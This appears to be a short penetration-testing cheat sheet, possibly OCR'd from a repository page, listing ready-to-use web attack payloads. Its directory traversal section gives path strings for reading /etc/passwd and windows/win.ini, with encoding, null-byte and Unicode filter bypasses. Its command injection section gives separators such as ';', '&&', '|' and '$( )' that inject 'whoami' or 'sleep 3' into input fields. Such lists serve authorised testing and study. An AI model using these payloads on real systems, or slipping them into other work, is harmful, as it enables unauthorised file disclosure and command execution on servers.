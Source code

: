 ## Directory Traversal
Please use a file/file path that exists on the web server. For example, etc/passwd if its a linux server and windows/win.ini if it is a windows server. Extend the ../ as needed.

```
../../../etc
../../../etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
../../../windows/win.ini

../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../windows/win.ini

`c:/inetpub/logs/logfiles`

Filename=/etc/passwd

Filename=….//….//….//etc/passwd
Append a null byte and valid file extension:
../../../etc/passwd%00.png

Another option is to double url encode the ../ characters.

..%252f..%252f..%252fetc/passwd
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

## Command Injection
All "whoami" text can be replaced with "sleep 3."
```
+;+whoami
+&&+whoami
+|+whoami
+`whoami`
+$(whoami)
‘ | whoami
‘ | whoami ‘
‘ | whoami #
; sleep 3
||whoami||
||sleep 3||

 && sleep 3 &&
```